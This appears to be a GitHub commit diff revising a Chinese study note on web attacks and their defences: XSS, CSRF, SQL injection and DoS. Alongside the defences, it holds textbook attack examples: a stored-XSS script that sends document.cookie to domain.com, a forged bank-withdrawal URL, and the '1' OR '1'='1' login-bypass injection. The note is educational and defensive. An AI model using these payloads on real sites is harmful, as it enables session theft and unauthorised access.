

Update 攻击技术.md
补充并调整 XSS、CSRF 防范机制与 SQL 注入的相关说明及参考资料，重新绘制 xss-stored 配图。

Changed region(s): [[0.402, 0.8692, 0.8039, 0.9002], [0.1237, 0.745, 0.4947, 0.7761], [0.0928, 0.6829, 0.1237, 0.714]]

diff --git a/notes/攻击技术.md b/notes/攻击技术.md
@@ -13,7 +13,7 @@
 
 ### 概念
 
-跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。
+跨站脚本攻击（Cross-Site Scripting, XSS）指的是攻击者把 HTML 和 JavaScript 代码注入到其他用户浏览的网页中。这些代码以该网站的身份在用户的浏览器中运行，能读取该网站的 Cookie、以用户的身份发送请求。
 
 主要有三种类型：
 
@@ -35,22 +35,22 @@
 <p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
 ```
 
-另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。
+另一个用户浏览了含有这个内容的页面将会跳转到 domain.com，并把该论坛的 Cookie 作为参数带过去。如果这个论坛网站通过 Cookie 管理用户登录状态，并且这个 Cookie 没有设置 HttpOnly，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。
 
 <div align="center"> <img src="pics/xss-stored.png" width="760px"/> </div><br>
 
 ### 危害
 
-- 窃取用户的 Cookie
-- 伪造虚假的输入表单骗取个人信息
-- 显示伪造的文章或者图片
-- 以用户的身份向网站发起请求
+- 窃取用户的 Cookie；
+- 伪造虚假的输入表单骗取个人信息；
+- 显示伪造的文章或者图片；
+- 以用户的身份向网站发起请求。
 
 ### 防范手段
 
 #### 1. 设置 Cookie 为 HttpOnly
 
-设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。
+设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。需要注意的是，它只能防止 Cookie 被偷走，注入的脚本仍然可以在页面中以用户的身份发送请求，浏览器会照常带上这个 Cookie。
 
 #### 2. 转义特殊字符
 
@@ -58,9 +58,9 @@
 
 富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。
 
-富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。
+富文本编辑器通常用基于白名单的 HTML 清理库来防范 XSS 攻击，例如前端的 DOMPurify、Java 的 OWASP Java HTML Sanitizer，只保留允许的标签和属性。黑名单很难列全危险的标签、属性和编码方式，容易被绕过。
 
-以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。
+以下例子是 js-xss 按默认白名单处理的结果：form 和 script 等标签被转义成文本，h1 和 p 等标签保留，但不在白名单中的 id 属性被去掉。
 
 ```html
 <h1 id="title">XSS Demo</h1>
@@ -94,17 +94,17 @@ alert(/xss/);
 &lt;/script&gt;
 ```
 
-> [XSS 过滤在线测试](http://jsxss.com/zh/try.html)
+> [XSS 过滤在线测试](https://jsxss.com/zh/try.html)
 
 #### 3. 内容安全策略
 
-通过 Content-Security-Policy 首部告诉浏览器只允许执行来自指定来源的脚本，禁止内联脚本，即使攻击者注入了代码也不会被执行。
+通过 Content-Security-Policy 首部告诉浏览器只允许执行来自指定来源的脚本，禁止内联脚本，这样注入到页面中的脚本不会被执行。效果取决于策略的配置（例如允许了 `'unsafe-inline'` 就挡不住内联脚本），它是补充的防线，不能代替转义。
 
 ## 二、跨站请求伪造
 
 ### 概念
 
-跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。
+跨站请求伪造（Cross-Site Request Forgery, CSRF）是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。浏览器向一个网站发请求时会自动带上该网站的 Cookie，从其它网站的页面发起的请求也一样（Cookie 的 SameSite 属性可以限制这一点，见下文），所以被访问的网站会认为是真正的用户操作而去执行。
 
 XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。
 
@@ -134,9 +134,9 @@ http://www.examplebank.com/withdraw?account=AccountName&amount=1000&for=PayeeNam
 
 #### 1. 检查 Referer 首部字段
 
-Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。
+Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大地防止 CSRF 攻击。
 
-这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。
+这种办法简单易行，仅需要在关键访问处增加一步校验。局限在于它依赖浏览器发送 Referer：网站可以用 Referrer-Policy 让浏览器不发送或只发送部分地址，部分隐私插件也会去掉它，请求中没有 Referer 时，放行会留下漏洞，拒绝又会误伤正常用户。因此它通常和 Origin 首部的检查一起，作为 Token 之外的补充。
 
 #### 2. 添加校验 Token
 
@@ -144,42 +144,42 @@ Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。
 
 #### 3. 设置 Cookie 的 SameSite 属性
 
-SameSite=Strict 表示跨站请求不携带 Cookie，Lax 则只允许顶级导航的 GET 请求携带。Chrome 等浏览器的默认值已经是 Lax，上面例子中图片发出的请求不会带上 Cookie。
+SameSite=Strict 表示跨站请求不携带 Cookie，Lax 则只允许顶级导航的 GET 请求携带。Chrome、Edge 对没有设置 SameSite 的 Cookie 按 Lax 处理，Firefox、Safari 没有这样做，因此需要显式设置。设置为 Lax 时，上面例子中图片发出的请求不会带上 Cookie，但点击链接这类顶级导航的 GET 请求仍然会带，所以修改数据的接口不能用 GET。
 
 #### 4. 输入验证码
 
-因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。
+因为 CSRF 攻击是在用户无意识的情况下发生的，所以对转账这类敏感操作，可以要求用户重新输入密码或短信验证码，确认的是本次操作，攻击者无法替用户完成。普通的图形验证码只用来区分人和程序，不能用来防范 CSRF。
 
 ## 三、SQL 注入攻击
 
 ### 概念
 
-服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。
+SQL 注入指的是攻击者在输入中混入 SQL 片段，服务器把输入直接拼接到 SQL 语句中，这些片段就被数据库当作语句的一部分执行。
 
 ### 攻击原理
 
 例如一个网站登录验证的 SQL 查询代码为：
 
-```sql
+```text
 strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
 ```
 
 如果填入以下内容：
 
-```sql
+```text
 userName = "1' OR '1'='1";
 passWord = "1' OR '1'='1";
 ```
 
 那么 SQL 查询字符串为：
 
-```sql
+```text
 strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
 ```
 
-此时无需验证通过就能执行以下查询：
+两个括号中的条件对每一行都成立，不需要知道密码，查询就等价于：
 
-```sql
+```text
 strSQL = "SELECT * FROM users;"
 ```
 
@@ -214,9 +214,9 @@ Query    SELECT * FROM users WHERE name = '1'' OR ''1''=''1' AND pw = '1'' OR ''
 
 ## 四、拒绝服务攻击
 
-拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。
+拒绝服务攻击（Denial-of-Service Attack, DoS）的目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。
 
-分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。
+分布式拒绝服务攻击（Distributed Denial-of-Service Attack, DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。
 
 常见类型：
 
@@ -238,3 +238,5 @@ Query    SELECT * FROM users WHERE name = '1'' OR ''1''=''1' AND pw = '1'' OR ''
 - [维基百科：拒绝服务攻击](https://zh.wikipedia.org/wiki/%E9%98%BB%E6%96%B7%E6%9C%8D%E5%8B%99%E6%94%BB%E6%93%8A)
 - [OWASP Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
 - [OWASP Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
+- [MDN: Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie)
+- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
